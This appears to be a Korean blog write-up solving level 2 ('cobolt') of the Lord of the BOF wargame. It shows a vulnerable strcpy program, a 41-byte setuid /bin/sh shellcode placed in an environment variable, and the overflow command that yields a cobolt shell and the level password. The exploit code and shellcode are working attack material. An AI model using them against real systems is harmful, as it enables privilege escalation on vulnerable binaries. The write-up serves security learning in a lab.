 ```yaml
---
title: LOB 2번 Write-up
date: 2017-8-26 18:05:00
categories: LOB
tags: LOB, cobolt
---
```


## LOB 2번

이번 레벨은 cobolt이다. 뭔가 1번이랑 비슷해 보인다.

    [gremlin@localhost gremlin]$ ls -l
    total 20
    -rwsr-sr-x    1 cobolt   cobolt      11970 Feb 26  2010 cobolt
    -rw-r--r--    1 gremlin  gremlin       291 Mar 29  2010 cobolt.c
    [gremlin@localhost gremlin]$ cat cobolt.c
    /*
            The Lord of the BOF : The Fellowship of the BOF
            - cobolt
            - small buffer
    */
    
    int main(int argc, char *argv[])
    {
        char buffer[16];
        if(argc < 2){
            printf("argv error\n");
            exit(0);
        }
        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);
    }

`buffer`에 16바이트까지 인자를 전달받아 저장하고, `printf`로 출력한다. 이번에도 16 + 4, 즉 20바이트의 인자를 전달하면 오버플로우가 생긴다. 참고로 LOB가 돌아가는 리눅스 환경은 레드햇 6.2로 더미 메모리나 랜덤스택이 없다고 하니 더미 메모리같은것은 걱정하지 않아도 된다. 

### 쉘코드 제작

    [gremlin@localhost gremlin]$ mkdir temp
    [gremlin@localhost gremlin]$ cd temp
    [gremlin@localhost temp]$ vi addr.c
    #include<stdio.h>
    int main(){
            printf("%#p \n", getenv("shell"));
    return 0;
    }
    [gremlin@localhost temp]$ gcc -o addr addr.c
    [gremlin@localhost temp]$ ls -l
    total 16
    -rwxrwxr-x    1 gremlin  gremlin     11848 Aug 22 12:38 addr
    -rw-rw-r--    1 gremlin  gremlin        86 Aug 22 12:38 addr.c

이렇게 shell이라는 환경변수의 주소를 가져오는 프로그램을 1번과 똑같이 짜 보았다.

    [gremlin@localhost gremlin]$ export shell=`python -c 'print "\x90"*100+"\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'`
    [gremlin@localhost gremlin]$ export
    declare -x BASH_ENV="/home/gremlin/.bashrc"
    declare -x HISTSIZE="1000"
    declare -x HOME="/home/gremlin"
    declare -x HOSTNAME="localhost.localdomain"
    declare -x HOSTTYPE="i386"
    declare -x INPUTRC="/etc/inputrc"
    declare -x LANG="en_US"
    declare -x LESSOPEN="|/usr/bin/lesspipe.sh %s"
    declare -x LOGNAME="gremlin"
    declare -x LS_COLORS="no=00:fi=00:di=01;34:ln=01;36:pi=40;33:so=01;35:bd=40;33;01:cd=40;33;01:or=01;05;37;41:mi=01;05;37;41:ex=01;32:*.cmd=01;32:*.exe=01;32:*.com=01;32:*.btm=01;32:*.bat=01;32:*.sh=01;32:*.csh=01;32:*.tar=01;31:*.tgz=01;31:*.arj=01;31:*.taz=01;31:*.lzh=01;31:*.zip=01;31:*.z=01;31:*.Z=01;31:*.gz=01;31:*.bz2=01;31:*.bz=01;31:*.tz=01;31:*.rpm=01;31:*.cpio=01;31:*.jpg=01;35:*.gif=01;35:*.bmp=01;35:*.xbm=01;35:*.xpm=01;35:*.png=01;35:*.tif=01;35:"
    declare -x MACHTYPE="i386-redhat-linux-gnu"
    declare -x MAIL="/var/spool/mail/gremlin"
    declare -x OSTYPE="linux-gnu"
    declare -x PATH="/usr/local/bin:/bin:/usr/bin:/usr/X11R6/bin:/home/gremlin/bin"
    declare -x PWD="/home/gremlin"
    declare -x REMOTEHOST="192.168.42.1"
    declare -x SHELL="/bin/bash"
    declare -x SHLVL="2"
    declare -x TERM="xterm"
    declare -x USER="gremlin"
    declare -x USERNAME=""
    declare -x shell="1À°1Í€‰Ã‰Á1À°FÍ€1ÀPh//shh/bin‰ãPS‰á1Ò°
                                                            Í€"

이렇게 41byte 쉘코드를 `shell`이라는 환경변수에 등록하고, `export`로 정상적으로 등록된 것을 확인하였다.


    [gremlin@localhost temp]$ ./addr
    0xbffffea1
    [gremlin@localhost temp]$ cd ..
    [gremlin@localhost gremlin]$ ./cobolt `python -c 'print "\x90"*20 + "\xa1\xfe\xff\xbf"'`
    ¡þÿ¿
    bash$ id
    uid=502(cobolt) gid=501(gremlin) egid=502(cobolt) groups=501(gremlin)
    bash$ my-pass
    euid = 502
    hacking exposed

이렇게 2번 문제의 비밀번호도 나왔다.

알고보니 1번을 풀었듯이 환경변수로 풀면 되는 문제였다. 차이점이 버퍼 크기가 256byte -> 16byte로 줄어들었다는 것이다. 1번은 환경변수로 풀 필요가 없이 버퍼 자체에다가 쉘코드를 넣어도 되지만, 2번은 버퍼가 16byte밖에 되지 않는 관계로 환경변수를 사용할 수 밖에 없는 것이다.